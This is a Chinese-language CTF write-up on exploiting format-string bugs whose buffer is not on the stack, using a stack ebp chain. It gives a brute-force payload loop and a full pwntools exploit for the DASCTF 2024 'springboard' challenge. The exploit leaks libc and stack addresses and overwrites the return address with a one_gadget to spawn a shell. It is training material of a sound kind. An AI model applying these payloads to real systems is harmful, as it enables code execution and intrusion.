

# 非栈上格式化字符串通用解法

## 1.原理

对于格式化字符串在 bss 或堆上，我们不能直接在栈上布置要写入的地址，因此需要借助栈上的 ebp 链进行构造

只要栈上存在一个有 2 跳的 ebp 链就可以构造栈上相对地址写原语




## 2.tip

利用的过程当中，可能会涉及到爆破，手动较为麻烦，下面是一个参考示例脚本：

```python
while 1:
    elf = ELF(elf_path)
    context(arch=elf.arch, os=elf.os, log_level="debug")
    p = remote(ip, port)
    payload = b"%60c%10$hhn" + b"|%34228c%18$hn"
    p.sendline(payload)
    try:
        p.sendline(b'echo aaaa')
        p.recvuntil(b'aaaa', timeout=1)
        p.interactive()
    except:
        p.close()
        continue
```


## 3.经典例题

[DASCTF 2024 暑期挑战赛 ｜ 为热爱，并肩作战] springboard

exp：

5 次格式化字符串的机会

第 1 次泄露栈地址和 libc

后面 4 次是两轮返回地址的修改（1 次修改了 2 字节，1 次修改了 1 字节，而每次修改则是要通过前一次修改（地址的指定））

```python
from pwn import *
from LibcSearcher import *
# patchelf --set-interpreter new_ld_address file_path
# patchelf --replace-needed old_libc.so.6 new_libc.so.6 file_path
# pycharm # ctrl+/

elf_path = './pwn'
libc_path = './libc.so.6'
elf = ELF(elf_path)
libc = ELF(libc_path)
context(arch=elf.arch, os=elf.os, log_level="debug")
ip = 'node5.buuoj.cn'
port = 25308

local = 0
if local:
    p = process([elf_path])
else:
    p = remote(ip, port)

#-----------------------------------------------------------------------------------------
it      = lambda                    :p.interactive()
sd      = lambda data               :p.send((data))
sa     	= lambda delim,data         :p.sendafter((delim), (data))
sl      = lambda data               :p.sendline((data))
sla     = lambda delim,data         :p.sendlineafter((delim), (data))
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=False :p.recvuntil(delims, drop)
l       = lambda str1               :log.success(str1)
li      = lambda str1,data1         :log.success(str1+' ========> '+hex(data1))
uu32    = lambda data               :u32(data.ljust(4, b"\x00"))
uu64    = lambda data               :u64(data.ljust(8, b"\x00"))
u32Leakbase = lambda offset         :u32(ru(b"\xf7")[-4:]) - offset
u64Leakbase = lambda offset         :u64(ru(b"\x7f")[-6:].ljust(8, b"\x00")) - offset
#-----------------------------------------------------------------------------------------
# 0x4527a execve("/bin/sh", rsp+0x30, environ)
# constraints:
#   [rsp+0x30] == NULL || {[rsp+0x30], [rsp+0x38], [rsp+0x40], [rsp+0x48], ...} is a valid argv
#

# 0xf03a4 execve("/bin/sh", rsp+0x50, environ)
# constraints:
#   [rsp+0x50] == NULL || {[rsp+0x50], [rsp+0x58], [rsp+0x60], [rsp+0x68], ...} is a valid argv
#

# 0xf1247 execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL || {[rsp+0x70], [rsp+0x78], [rsp+0x80], [rsp+0x88], ...} is a valid argv

sla(b"Please enter a keyword\n", b"%9$p%11$p")
s = r()
libc_start_main_240 = int(s[0:14], 16)
stack_addr = int(s[14:28], 16)
libc.base = libc_start_main_240 - 0x20840
one_gadget = [0x4527a, 0xf03a4, 0xf1247]
one_gadget = one_gadget[2] + libc.base
li("stack_addr", stack_addr)
li("libc_start_main_240", libc_start_main_240)
li("libc.base", libc.base)
li("one_gadget", one_gadget)

ret_addr = stack_addr - 0xe0
pad1 = ret_addr & 0xffff
sl(b"%" + str(pad1).encode() + b"c%11$hn")

pad2 = one_gadget & 0xffff
sla(b"Please enter a keyword\n", b"%" + str(pad2).encode() + b"c%37$hn")

sla(b"Please enter a keyword\n", b"%" + str(pad1+2).encode() + b"c%11$hn")

pad3 = ((one_gadget & 0xff0000) >> 16) & 0xff
sla(b"Please enter a keyword\n", b"%" + str(pad3).encode() + b"c%37$hhn")

it()
```

